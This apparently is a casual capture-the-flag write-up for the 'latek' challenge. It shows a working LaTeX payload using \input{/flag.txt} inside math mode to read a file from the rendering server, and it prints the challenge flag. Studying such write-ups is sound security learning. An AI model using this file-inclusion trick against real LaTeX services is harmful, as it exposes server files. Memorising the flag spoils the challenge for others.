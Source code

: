 # latek

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/aebb79cd-4a70-4c43-acec-933a88fa5a77)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/bad4708d-656d-4e57-b3d2-470a0a6b2a58)

## solution

first of all, why tf is it pronounced "latek"??, who decided it rolled off the tongue better than "latex"??????? angry

we can try to use the `\input{<path>}` to inject any file on disk to the latex document

however, there is an error so we cannot get the full flag:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9c277e94-004b-4e7c-8403-ae15ff9db5a2)

we can surround the input command with `$` and it works

total payload:

```latex
\documentclass{article}
\begin{document}
$\input{/flag.txt}$
\end{document}
```
![image](https://github.com/quasar098/ctf-writeups/assets/70716985/553638ab-779f-4dc3-ae20-bc62a7a0c14b)

i know that `_` before a character means it is subscripted, so we can do the reverse to get the flag

`amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`

i'm not quite sure what rc3 is. someone let me know if you figure it out
